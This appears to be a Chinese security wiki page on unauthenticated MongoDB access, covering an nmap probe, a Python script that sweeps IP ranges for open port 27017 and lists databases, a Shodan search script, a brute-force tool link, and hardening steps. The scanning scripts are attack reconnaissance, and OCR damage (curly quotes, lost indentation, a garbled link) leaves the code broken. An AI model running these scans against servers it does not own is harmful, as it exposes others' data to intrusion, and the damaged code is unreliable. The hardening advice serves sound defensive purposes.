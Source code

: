 ```yaml
---
title: Mongo DB未授权访问
id: zhfly3031
---
```


# MongoDB未授权访问

## 一、漏洞简介

MongoDB 默认直接连接，无须身份验证，如果当前机器可以公网访问，且不注意Mongodb 端口（默认 27017）的开放状态，那么Mongodb就会产生安全风险，被利用此配置漏洞，入侵数据库。

*   使用默认 mongod 命令启动 Mongodb
*   机器可以被公网访问
*   在公网上开放了 Mongodb 端口
*   数据库隐私泄露
*   数据库被清空
*   数据库运行缓慢

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

#### 2\. 下载：

http://nmap.org/svn/scripts/mongodb-info.nse

```
nmap -p 27017 --script mongodb-info <ip> 
```

![image](../img/3d8709b0cdcb0dbbec443c096f7349ed.png)

```
vim /etc/mongodb.conf
dbpath = /data/
logpath = /var/logs/mongodb.log
##port = 27017
##fork = true
bind_ip = 0.0.0.0 `./mongod –config mongodb.conf [//启动mongodb加载配置mongodb.conf](//xn--mongodbmongodb-rp1xpdy51a6z2tx0pcfuh.conf)` 
```

##### 1.1 基础

*   https://www.jianshu.com/p/8bf26effa737
*   http://www.runoob.com/mongodb/mongodb-tutorial.html
*   https://itbilu.com/database/mongo/E1tWQz4_e.html

##### 1.2 批量扫描未授权

```
import socket
import sys
import pymongo

ipcons = []

def Scanner(ip):

global ipcons

sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

sk.settimeout(0.3)

try:

sk.connect((ip,27017))

ipcons.append(ip)

sk.close()

except Exception:

pass

def ip2num(ip):

ip=[int(x) for x in ip.split(’.’)]

return ip[0] <<24 | ip[1]<<16 | ip[2]<<8 |ip[3]

def num2ip(num):

return ‘%s.%s.%s.%s’ %( (num & 0xff000000) >>24,

(num & 0x00ff0000) >>16,

(num & 0x0000ff00) >>8,

num & 0x000000ff )

def get_ip(ip):

start,end = [ip2num(x) for x in ip.split(’ ') ]

return [ num2ip(num) for num in range(start,end+1) if num & 0xff ]

startIp = sys.argv[1]

endIp = sys.argv[2]

iplist = get_ip(sys.argv[1]+" "+sys.argv[2])

for i in iplist:

Scanner(i)

def connMon(ip_addr):

print ’ Connect mongodb: ’ + ip_addr + ‘:27017’

try:

conn = pymongo.MongoClient(ip_addr,27017,socketTimeoutMS=3000)

dbname = conn.database_names()

print “success”

except Exception as e:

print “error”

print ipcons

for ipaddr in ipcons:

connMon(ipaddr)

print “=================” 
```

##### 1.3 shodan扫描脚本

```
##!/usr/bin/python
## -*- coding: UTF-8 -*-
'''
@Author：joy_nick
@博客：http://byd.dropsec.xyz/
'''
import shodan
import os
iplist = []
ip_list = []
shodan_ip_list = []
def shodanSearch(keywords):
    SHODAN_API_KEY = "your key"
    api = shodan.Shodan(SHODAN_API_KEY)
    total = 0
    try:
        results = api.search(keywords)
        total = int(results['total'])
        for result in results['matches']:
            ##iplist.append({"ip":result['ip_str'],"country":result['location']['country_name']})
            iplist.append(result['ip_str'])
            for i in range(len(iplist)):
                ip_list = iplist[i].encode('utf-8')
                shodan_ip_list.append(ip_list)
                s = '\n'.join(shodan_ip_list)
                with open('shodan_ip_list.txt','w') as output:
                    output.write(s)
    except shodan.APIError, e:
        print 'Error: %s' % e
if __name__ == '__main__':
    shodanSearch('redis') 
```

查询操作

![image](../img/dfc06acb4f8d9aa164ae7371b1e31bcd.png)

#### 2\. 爆破脚本

https://github.com/netxfly/x-crack

#### 4\. 防范措施

**(1).新建管理账户开启MongoDB授权**
新建终端[参数默认可以不加，若有自定义参数，才要加上，下同]
mongod --port 27017 --dbpath /data/db1

另起一个终端，运行下列命令

```
mongo --port 27017

use admin

db.createUser(

{

user: “adminUser”,

pwd: “adminPass”,

roles: [ { role: “userAdminAnyDatabase”, db: “admin” } ]

}

) 
```

管理员创建成功，现在拥有了用户管理员 用户名:adminUser 密码:adminPass

![image](../img/34775b8ba7f71f32f094105952bb000b.png)

**(2).本地访问**
bind 127.0.0.1
**(3).修改默认端口**
修改默认的mongoDB端口(默认为: TCP 27017)为其他端口

**(4).禁用HTTP和REST端口**
MongoDB自身带有一个HTTP服务和并支持REST接口。在2.6以后这些接口默认是关闭的。mongoDB默认会使用默认端口监听web服务，一般不需要通过web方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择–nohttpinterface 参数nohttpinterface = false
**(5).开启日志审计功能**
审计功能可以用来记录用户对数据库的所有相关操作。这些记录可以让系统管理员在需要的时候分析数据库在什么时段发生了什么事情
**(6).开启auth认证**

```
/etc/mongodb.conf  
auth = true 
```

其他:http://www.mottoin.com/105609.html